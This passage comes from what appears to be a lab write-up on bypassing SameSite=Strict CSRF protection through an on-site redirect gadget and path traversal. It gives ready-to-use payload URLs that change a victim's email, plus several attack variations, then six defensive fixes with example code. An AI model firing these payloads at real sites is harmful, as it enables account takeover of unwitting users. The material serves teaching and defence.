         ↓
Reaches protected endpoint with full session! 💥
```

---

### **URL Encoding in Nested Parameters**

```r
The ampersand encoding problem:

Target payload:
/my-account/change-email?email=evil@attacker.com&submit=1
                                                 ↑
                                      Ampersand separates params

Nested in postId parameter:
?postId=1/../../my-account/change-email?email=evil@attacker.com&submit=1
                                                                ↑
                                               This breaks the URL!

What browser sees:
?postId=1/../../my-account/change-email?email=evil@attacker.com
&submit=1 ← Separate top-level parameter!

Result:
└── JavaScript gets incomplete postId
└── postId = "1/../../my-account/change-email?email=evil@attacker.com"
└── Missing submit=1 ❌

Solution: URL encode the ampersand
?postId=1/../../my-account/change-email?email=evil@attacker.com%26submit=1
                                                                ↑
                                                        %26 = encoded &

What browser sees:
?postId=1/../../my-account/change-email?email=evil@attacker.com%26submit=1
└── Entire string is the postId parameter ✓

JavaScript automatically decodes:
postId = "1/../../my-account/change-email?email=evil@attacker.com&submit=1"
└── %26 decoded back to & ✓
└── Full payload preserved ✓

Other characters to encode:
├── @ → %40 (in email addresses)
├── & → %26 (parameter separator)
├── = → %3D (key-value separator)
├── # → %23 (fragment identifier)
└── ? → %3F (query string start)

Best practice:
└── Encode ALL special characters in nested parameters
    └── Prevents accidental URL structure breakage
        └── Ensures payload reaches JavaScript intact ✓
```

---

### **Same-Site vs Cross-Site Navigation**

```r
Understanding site boundaries:

What is a "site"?
└── Registered domain + scheme
    ├── https://example.com = one site
    ├── https://sub.example.com = SAME site (same domain)
    └── https://different.com = DIFFERENT site

Examples:
├── https://lab.web-security-academy.net
│   └── Same site: https://lab.web-security-academy.net/any-path
│   └── Cross site: https://exploit-server.net
│
├── https://portswigger.net
│   └── Same site: https://portswigger.net/blog
│   └── Same site: https://sub.portswigger.net
│   └── Cross site: https://example.com

SameSite cookie rules:

Strict with cross-site navigation:
├── Initiator: https://attacker.com
├── Target: https://target.com/change-email
├── Browser: "Cross-site request"
└── Cookie: NOT sent ❌

Strict with same-site navigation:
├── Initiator: https://target.com/page1
├── Target: https://target.com/page2
├── Browser: "Same-site request"
└── Cookie: IS sent ✓

Attack exploitation:
└── Step 1: Cross-site → Target/public-page
│   └── No cookie needed (public page)
│   └── Lands victim ON target.com ✓
│
└── Step 2: Same-site → Target/protected-page
    └── Navigation happens ON target.com
    └── Browser sees: target.com → target.com (same-site!)
    └── Cookie flows through! ✓

The protection gap:
└── Strict assumes: "No cross-site cookie = safe"
    └── But misses: "What if we land on-site first?"
        └── Once on-site, same-site navigation is unrestricted!
            └── Gadget chains break the protection model! 💣
```

---

### **Why GET Support Matters**

```r
Client-side redirect limitations:

JavaScript navigation methods:
├── window.location = URL → Creates GET request
├── window.location.href = URL → Creates GET request
├── document.location = URL → Creates GET request
└── Cannot create POST via simple assignment ❌

Why this matters:
└── If endpoint only accepts POST:
    ├── Redirect gadget fires GET request
    ├── Server rejects (method not allowed)
    └── Attack fails! ✓

└── If endpoint accepts GET:
    ├── Redirect gadget fires GET request
    ├── Server processes it
    └── Attack succeeds! 💥

This lab:
├── Email change accepts both POST and GET ✓
├── Developer thought: "SameSite=Strict protects us"
├── Didn't consider: GET + gadget + same-site = bypass
└── Vulnerability introduced! ⚠️

Defense implication:
└── State-changing operations should ONLY accept POST
    └── Never process dangerous actions via GET
        └── Even with SameSite=Strict!
            └── Defense in depth! 🛡️
```

---

### **Comparison with Previous Bypass Techniques**

```r
CSRF Bypass Comparison:

Lab 1 — No CSRF protection:
├── No tokens, no SameSite
├── Direct cross-site POST works
└── Trivial attack ✓

Lab 2 — Token validation depends on method:
├── POST requires token
├── GET skips validation
└── Convert POST → GET, attack succeeds

Lab 3 — Token validation depends on presence:
├── Token present → validated
├── Token absent → skipped
└── Remove token parameter, attack succeeds

Lab 4 — Token duplicated in cookie:
├── Server checks: cookie == body
├── Find CRLF injection
└── Inject fake cookie, send matching body

Lab 5 — SameSite Lax + method override:
├── SameSite=Lax set (browser default)
├── Allows GET top-level navigations
├── Server has _method=POST override
└── GET + _method=POST = bypass

Lab 6 — SameSite Strict + gadget (this lab):
├── SameSite=Strict set (strongest protection)
├── Blocks ALL cross-site requests
├── Find on-site redirect gadget
├── Gadget uses path traversal
└── Cross-site → same-site chain = bypass

Difficulty progression:
└── Direct → Method tricks → Token tricks → Injection → Gadget chains
    └── Each requires more reconnaissance
        └── Each requires more technique chaining
            └── This lab is the most complex! 🎯
```

---

## 🚀 **Attack Variations**

### **Variation 1: Different Path Traversal Depths**

**Depending on JavaScript structure:**

```HTTP
One level up:
?postId=../my-account/change-email?email=...

Two levels up (this lab):
?postId=1/../../my-account/change-email?email=...

Three levels up:
?postId=1/2/../../../my-account/change-email?email=...

Always test multiple depths:
└── Different gadgets have different base paths
    └── May need more or fewer ../ sequences
        └── Browser normalization handles excess ✓
```

---

### **Variation 2: Absolute Path Injection**

**Some gadgets might allow absolute paths:**

```js
If JavaScript does:
window.location = baseURL + param

Test absolute path:
?postId=/my-account/change-email?email=...

Result:
baseURL + '/my-account/change-email?email=...'
= '/post' + '/my-account/change-email?email=...'
= '/post/my-account/change-email?email=...'

Might work depending on how baseURL ends:
├── If baseURL = '/post/' → concatenation breaks ❌
└── If baseURL = '/post' → might work (depends on browser) ⚠️

Path traversal more reliable:
└── Works regardless of baseURL structure ✓
```

---

### **Variation 3: Multiple Parameter Injection**

**Inject multiple parameters via the gadget:**

```HTTP
Email change with CSRF token (if present):
?postId=1/../../my-account/change-email?email=evil%40attacker.com%26submit=1%26csrf=fake

Or change multiple fields:
?postId=1/../../my-account/update?email=evil%40attacker.com%26name=Attacker%26submit=1

Encode ALL ampersands:
└── Each & must be %26 to stay inside postId parameter
    └── Otherwise breaks the URL structure ✓
```

---

### **Variation 4: Other Gadget Types**

**Look for different redirect patterns:**

```JavaScript
1. Query parameter redirect:
   const target = url.searchParams.get("redirect");
   window.location = target;
   
   Exploit: ?redirect=/my-account/change-email?email=...

2. Hash fragment redirect:
   const target = window.location.hash.substring(1);
   window.location = target;
   
   Exploit: #/my-account/change-email?email=...

3. POST parameter redirect:
   // After form submission, redirect based on body
   const data = await response.json();
   window.location = data.next;
   
   Exploit: Chain form submission with redirect

4. OAuth callback:
   const code = url.searchParams.get("code");
   const redirect = url.searchParams.get("redirect_uri");
   // Process OAuth then redirect
   window.location = redirect;
   
   Exploit: Use OAuth flow to reach same-site gadget
```

---

### **Variation 5: WebSocket Gadget**

**Some sites use WebSockets for navigation:**

```JavaScript
WebSocket-based redirect:
const ws = new WebSocket('wss://target.com/ws');
ws.onmessage = (event) => {
    const data = JSON.parse(event.data);
    if (data.action === 'redirect') {
        window.location = data.url;
    }
};

Exploit:
└── If attacker can influence WebSocket messages
    └── Inject redirect command via WebSocket
        └── Same-site navigation triggered! ✓

Less common but possible:
└── Look for WebSocket endpoints
    └── Test if they accept navigation commands
        └── Could be another gadget vector! 🎯
```

---

### **Variation 6: Meta Refresh Gadget**

**Server-side gadgets with meta refresh:**

```HTML
Server reflects parameter in meta refresh:
<meta http-equiv="refresh" content="3; url=/post/{postId}">

If postId not sanitized:
?postId=1/../../my-account/change-email?email=...

Results in:
<meta http-equiv="refresh" content="3; url=/post/1/../../my-account/change-email?email=...">

Browser performs same-site navigation:
└── Meta refresh is browser-level redirect
    └── Same-site → cookie included ✓
        └── Another gadget type! 💣
```

---

### **Variation 7: Form Auto-Submit Gadget**

**JavaScript that auto-submits forms:**

```JavaScript
Page with auto-submit:
<form id="redirectForm" method="GET" action="/post/">
    <input name="postId" value="{user_input}">
</form>
<script>
    setTimeout(() => {
        document.getElementById('redirectForm').submit();
    }, 2000);
</script>

Exploit with path traversal:
?postId=1/../../my-account/change-email?email=...

Form submits to:
GET /post/?postId=1/../../my-account/change-email?email=...

If server redirects based on postId:
└── Another same-site gadget! ✓
```

---

### **Variation 8: Chaining Multiple Gadgets**

**Complex attack chains:**

```HTTP
Multi-step gadget chain:

Step 1: Redirect gadget 1
  Attacker → Target/gadget1?param=value

Step 2: Gadget 1 redirects to Gadget 2
  Target/gadget1 → Target/gadget2?param2=value2

Step 3: Gadget 2 redirects to target endpoint
  Target/gadget2 → Target/change-email?email=...

Each step is same-site:
└── First step lands on target (no cookie needed)
    └── Subsequent steps all same-site (cookies flow through)
        └── Final endpoint receives authenticated request! 💥

Real-world example:
└── OAuth login flow → dashboard → settings → email change
    └── Each redirect is same-site
        └── Cookie preserved throughout chain
            └── Complex but powerful bypass! 🎯
```

---

### **Variation 9: Timing-Based Attacks**

**Exploit race conditions in gadgets:**

```JavaScript
If redirect has delay:
setTimeout(() => {
    window.location = constructedURL;
}, 3000);

Attacker could:
├── Close window before redirect fires
├── Navigate away during delay
├── Exploit timing for side-channel attacks
└── Chain with other timing vulnerabilities

Less relevant for CSRF:
└── But good to know for comprehensive testing ✓
```

---

### **Variation 10: Fragment Identifier Preservation**

**Some gadgets preserve URL fragments:**

```HTTP
Gadget preserves fragments:
?postId=5#section2
         ↓
Redirects to: /post/5#section2

Exploit with traversal:
?postId=1/../../my-account/change-email?email=...#ignored
         ↓
Redirects to: /my-account/change-email?email=...#ignored

Fragment is ignored by server:
└── Doesn't affect email change
    └── But could hide payload in client-side view
        └── Social engineering opportunity! 💡
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Set SameSite=Strict AND Use CSRF Tokens**

```javascript
// ✅ SECURE - Defense in depth: Strict cookies + tokens

// Session cookie with Strict
app.use(session({
    secret: process.env.SESSION_SECRET,
    cookie: {
        httpOnly: true,
        secure: true,
        sameSite: 'strict'  // Blocks cross-site
    }
}));

// ALSO implement CSRF tokens
const csrf = require('csurf');
app.use(csrf());

// On email change endpoint
app.post('/my-account/change-email', (req, res) => {
    // Validate CSRF token (server-side session-bound)
    if (req.body.csrf !== req.session.csrfToken) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    updateEmail(req.body.email);
    res.redirect('/my-account');
});

Why defense in depth matters:
✅ SameSite=Strict blocks direct cross-site attacks
✅ CSRF tokens block gadget-based attacks
✅ Even if gadget exists, token validation fails
✅ Two independent security layers! 🛡️
```

---

### **Fix 2: Restrict State-Changing Operations to POST Only**

```javascript
// ✅ SECURE - Only accept POST for dangerous actions

app.post('/my-account/change-email', (req, res) => {
    // Process email change
    updateEmail(req.body.email);
    res.redirect('/my-account');
});

// Explicitly reject GET
app.get('/my-account/change-email', (req, res) => {
    return res.status(405).send('Method not allowed');
});

// Or use middleware to enforce
function requirePOST(req, res, next) {
    if (req.method !== 'POST') {
        return res.status(405).send('Method not allowed');
    }
    next();
}

app.use('/my-account/change-email', requirePOST);

Why this prevents gadget bypass:
└── Client-side redirect creates GET request
    └── Server rejects GET
        └── Attack fails even with gadget! ✓

└── JavaScript cannot create POST via simple assignment
    └── window.location only creates GET
        └── More complex exploit required ✓
```

---

### **Fix 3: Validate and Sanitize Redirect Parameters**

```javascript
// ✅ SECURE - Strict validation of redirect parameters

function safeRedirect(postId) {
    // Only allow numeric post IDs
    if (!/^\d+$/.test(postId)) {
        return '/post'; // Default safe redirect
    }
    
    const id = parseInt(postId, 10);
    
    // Validate ID is in allowed range
    if (id < 1 || id > 999999) {
        return '/post';
    }
    
    return `/post/${id}`;
}

// In JavaScript gadget
const postId = url.searchParams.get("postId");
const safeURL = safeRedirect(postId);
window.location = safeURL;

Why this prevents bypass:
✅ Regex /^\d+$/ rejects path traversal
✅ Only pure numbers allowed
✅ ../ sequences rejected
✅ Cannot escape intended path! 🛡️

Alternative whitelist approach:
const ALLOWED_PATHS = new Set([
    '/post/1', '/post/2', '/post/3', // ... etc
]);

function safeRedirect(postId) {
    const path = `/post/${postId}`;
    if (!ALLOWED_PATHS.has(path)) {
        return '/post'; // Default
    }
    return path;
}
```

---

### **Fix 4: Use Server-Side Redirects Instead**

```javascript
// ✅ SECURE - Server handles redirect, not client

// Remove client-side JavaScript redirect
// Instead, use HTTP 302/303 redirect

app.get('/post/comment/confirmation', (req, res) => {
    const postId = req.query.postId;
    
    // Validate postId server-side
    if (!/^\d+$/.test(postId)) {
        return res.redirect('/post');
    }
    
    // Server-side redirect after 3 seconds
    setTimeout(() => {
        // In real app, this would use meta refresh or client-side
        // But the VALIDATION happens server-side
        res.redirect(`/post/${postId}`);
    }, 3000);
});

Benefits:
✅ Server controls redirect destination
✅ Server validates parameter
✅ No client-side manipulation possible
✅ Path traversal blocked at server level 🛡️

Limitation:
└── JavaScript-free redirect is less smooth UX
    └── But security > convenience
        └── Or use validated meta refresh
```

---

### **Fix 5: Implement Content Security Policy (CSP)**

```HTTP
# ✅ SECURE - CSP restricts navigation

Content-Security-Policy: 
    default-src 'self'; 
    script-src 'self'; 
    navigate-to 'self';

CSP navigate-to directive:
└── Restricts where page can navigate
    ├── 'self' = only same origin
    ├── Specific URLs can be whitelisted
    └── Prevents gadget from navigating elsewhere

Example in Express:
app.use((req, res, next) => {
    res.setHeader(
        'Content-Security-Policy',
        "navigate-to 'self'"
    );
    next();
});

Why this helps:
✅ Even with gadget, CSP blocks unexpected navigation
✅ Browser enforces policy
✅ Defense in depth layer 🛡️

Limitation:
└── navigate-to is not fully supported in all browsers yet
    └── Use as additional layer, not sole defense
```

---

### **Fix 6: Add Explicit Confirmation for Sensitive Actions**

```javascript
// ✅ SECURE - Require user interaction

// Email change endpoint requires confirmation token
app.post('/my-account/change-email', (req, res) => {
    const { email, confirmToken } = req.body;
    
    // Check if user clicked confirmation link/button
    if (!req.session.emailChangeConfirmed) {
        // Show confirmation page
        req.session.pendingEmail = email;
        return res.render('confirm-email-change', { email });
    }
    
    // Process change only after explicit confirmation
    updateEmail(email);
    req.session.emailChangeConfirmed = false; // Reset
    res.redirect('/my-account');
});

// Confirmation endpoint
app.post('/my-account/confirm-email-change', (req, res) => {
    req.session.emailChangeConfirmed = true;
    res.redirect('/my-account/change-email');
});

Why this prevents gadget bypass:
└── Requires TWO separate requests:
    ├── 1. Request email change
    ├── 2. Confirm email change
    └── Gadget can only trigger first request
        └── User must explicitly confirm second
            └── Attack fails! ✓
```

---
